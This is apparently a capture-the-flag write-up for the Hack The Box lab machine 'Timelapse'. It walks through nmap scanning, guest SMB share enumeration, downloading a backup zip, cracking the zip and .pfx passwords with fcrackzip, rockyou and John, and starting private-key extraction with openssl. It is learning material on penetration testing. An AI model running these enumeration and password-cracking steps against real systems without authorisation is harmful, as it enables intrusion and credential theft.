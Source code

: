 ```yaml
---
permalink: /htb/timelapse
title: Timelapse
---
```


<br>

Small note: when using the UDP VPN sever I could not ping the machine but TCP worked. 

As always, begin with nmap:

```
[connor@fedora ~]$ nmap 10.10.11.152 -A
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-18 20:15 AEST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.64 seconds
[connor@fedora ~]$ nmap 10.10.11.152 -A -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-18 20:15 AEST
Nmap scan report for 10.10.11.152
Host is up (0.067s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-18 18:15:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m58s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-06-18T18:15:56
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.62 seconds
```

<br>

Note the SMB protocol - we can enumerate it with [smbmap](https://github.com/ShawnDEvans/smbmap):

<br>

```
[connor@fedora smbmap]$ python smbmap.py -H 10.10.11.152 -u guest

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

                                                                                                    
[+] IP: 10.10.11.152:445        Name: 10.10.11.152              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
```

<br>

Next let's try access the READ ONLY disks.

<br>

```
[connor@fedora timelapse]$ smbclient //10.10.11.152/Shares
Password for [SAMBA\connor]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Oct 26 01:39:15 2021
  ..                                  D        0  Tue Oct 26 01:39:15 2021
  Dev                                 D        0  Tue Oct 26 05:40:06 2021
  HelpDesk                            D        0  Tue Oct 26 01:48:42 2021

                6367231 blocks of size 4096. 2442478 blocks available
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Tue Oct 26 05:40:06 2021
  ..                                  D        0  Tue Oct 26 05:40:06 2021
  winrm_backup.zip                    A     2611  Tue Oct 26 01:46:42 2021

                6367231 blocks of size 4096. 2442478 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (7.3 KiloBytes/sec) (average 7.3 KiloBytes/sec)
smb: \Dev\> ^C
[connor@fedora timelapse]$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

<br>

We find a password protected zip file. <br>

I used [fcrackzip](https://github.com/foreni-packages/fcrackzip) and rockyou:

<br>

```
[connor@fedora timelapse]$ time fcrackzip -D -u winrm_backup.zip -p rockyou.txt
sh: -c: line 1: unexpected EOF while looking for matching `"'
sh: -c: line 2: syntax error: unexpected end of file
sh: -c: line 1: unexpected EOF while looking for matching `"'
sh: -c: line 2: syntax error: unexpected end of file
sh: -c: line 1: unexpected EOF while looking for matching ``'
sh: -c: line 2: syntax error: unexpected end of file


PASSWORD FOUND!!!!: pw == supremelegacy

real    1m3.700s
user    0m21.971s
sys     0m39.765s
```

<br>

Now we can open it: 

<br>

```
[connor@fedora timelapse]$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
[connor@fedora timelapse]$ l
legacyy_dev_auth.pfx  rockyou.txt  winrm_backup.zip
```

<br>

It contains a pfx file. I didn't know what it was so I googled it: <https://www.google.com/search?q=pfx+file&oq=pfx+file> <br>
Then the first link told me how to extract private key: `openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]`

<br>

```
[connor@fedora timelapse]$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
```

<br>

But again it is password protected. <br>
I followed this to install johntheripper: https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-FEDORA <br>
Then managed to get the password: thuglegacy
